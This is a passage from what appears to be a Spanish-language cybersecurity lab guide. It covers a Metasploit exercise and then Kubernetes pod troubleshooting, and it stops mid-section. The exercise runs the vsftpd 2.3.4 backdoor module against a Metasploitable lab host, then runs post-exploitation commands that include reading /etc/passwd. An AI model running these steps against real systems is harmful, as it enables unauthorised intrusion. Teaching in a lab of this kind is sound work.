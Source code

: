 ### Ejercicio 4: Explotación con Metasploit (Nivel Avanzado)

**Objetivo**: Usar exploits reales contra vulnerabilidades

1. **Buscar exploits disponibles**:
   ```bash
   msfconsole
   search type:exploit platform:linux
   ```

2. **Usar un exploit específico**:
   ```bash
   # Ejemplo con vulnerabilidad VSFTPd
   use exploit/unix/ftp/vsftpd_234_backdoor
   set RHOSTS IP_METASPLOITABLE
   exploit
   ```

3. **Post-explotación**:
   ```bash
   # Si obtienes una shell:
   whoami
   uname -a
   cat /etc/passwd
   ```

## Solución de Problemas Comunes

### Problema 1: Los pods no inician

**Síntomas**:
```bash
kubectl get pods -n cyber-lab
# Estado: Pending o CrashLoopBackOff
```

**Diagnóstico**:
```bash
# Ver eventos del pod
kubectl describe pod NOMBRE_POD -n cyber-lab

# Ver logs del pod
kubectl logs NOMBRE_POD -n cyber-lab
```

**Soluciones comunes**:
- **Recursos insuficientes**: Aumentar memoria/CPU de minikube
- **Imágenes no encontradas**: Verificar conectividad a internet
- **Permisos**: Verificar que Docker funciona sin sudo

### Problema 2: No puedo acceder via web

**Síntomas**: Navegador no carga `http://IP:31000`

